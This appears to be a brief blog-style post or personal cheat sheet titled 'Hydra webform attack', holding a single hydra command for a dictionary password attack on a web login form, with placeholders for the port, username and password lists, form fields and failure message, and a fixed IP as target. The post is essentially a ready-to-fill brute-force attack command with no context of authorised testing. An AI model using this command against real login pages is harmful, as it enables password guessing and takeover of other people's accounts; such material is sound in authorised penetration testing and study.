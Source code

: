 ```yaml
---
layout: post
title:  Hydra webform attack
categories: [Code, Linux, Hydra]
---
```


### This is a code snippet for a dictionary attack on a webform

```
hydra 99.0.4.3 -s <PORT> -l <LOGIN/LOGINS LIST> -P <PASSWORD/PASSWORD LIST>  http-post-form "<form url>:username=^USER^&password=^PASS^&submit=Submit:<fail message>"
```
